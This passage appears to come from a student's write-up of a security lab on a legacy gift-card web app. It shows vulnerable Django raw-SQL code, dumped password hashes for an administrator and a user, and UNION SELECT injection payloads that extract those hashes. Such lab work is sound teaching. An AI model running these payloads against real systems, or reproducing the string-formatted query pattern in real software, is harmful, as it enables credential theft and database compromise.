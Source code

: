 Examining the RAW post html we can see some interesting SQL statements not seen on other error messages meaning the website was not using " ' " as a character but as an SQL operator, not good. 
```
 <li onclick="toggle('pre140642164615040', 'post140642164615040')"><pre>        # KG: data seems dangerous.</pre></li>
                
                  <li onclick="toggle('pre140642164615040', 'post140642164615040')"><pre>        signature = json.loads(card_data)[&#x27;records&#x27;][0][&#x27;signature&#x27;]</pre></li>
                
                  <li onclick="toggle('pre140642164615040', 'post140642164615040')"><pre>        # signatures should be pretty unique, right?</pre></li>
                
                  <li onclick="toggle('pre140642164615040', 'post140642164615040')"><pre>        card_query = Card.objects.raw(&#x27;select id from LegacySite_card where data = \&#x27;%s\&#x27;&#x27; % signature)</pre></li>
                
                  <li onclick="toggle('pre140642164615040', 'post140642164615040')"><pre>        user_cards = Card.objects.raw(&#x27;select id, count(*) as count from LegacySite_card where LegacySite_card.user_id = %s&#x27; % str(request.user.id))</pre></li>
```

Examining db.sqlite on an online viewer we see some tables of interest 

<img width="1041" alt="Screen Shot 2022-03-20 at 9 56 44 PM" src="https://user-images.githubusercontent.com/72175659/159196606-5c9c1640-1ef9-4605-993e-cc916bb97260.png">

We are being asked for the password data of the user in the session and the administrator, they are found in Legacysite_user.

<img width="1043" alt="Screen Shot 2022-03-20 at 9 57 13 PM" src="https://user-images.githubusercontent.com/72175659/159196953-b193f52c-470b-47e6-8063-37d408f41a56.png">

password data for administrator is 000000000000000000000000000078d2$18821d89de11ab18488fdc0a01f1ddf4d290e198b0f80cd4974fc031dc2615a3
password data for johnbg is 000000000000000000000000000078d2$fd9536f6310de320d67bed983a102591d708ba497eebd1084c4f4cf91b0345a8

a statement that could work is a UNION SELECT since our data needs to be appended after the queries already programmed
we try 
```
'UNION SELECT password FROM Legacysite_user WHERE username='johnbg' --
```
<img width="1131" alt="Screen Shot 2022-03-20 at 10 51 02 PM" src="https://user-images.githubusercontent.com/72175659/159199263-39ddb2fe-8c9c-4d49-beb6-2b44935ee4d9.png">
<img width="1133" alt="Screen Shot 2022-03-20 at 10 51 14 PM" src="https://user-images.githubusercontent.com/72175659/159199265-c25beb03-8d25-4aed-a3d3-df05fef1e137.png">

We find the password data in the output 

we try 
```
'UNION SELECT password FROM Legacysite_user WHERE username='administrator' --
```
<img width="1143" alt="Screen Shot 2022-03-20 at 10 55 20 PM" src="https://user-images.githubusercontent.com/72175659/159199507-31505b32-2043-48c9-b439-e432dde546e0.png">

the following payload is in our jbg469-sqli.gftcrd file
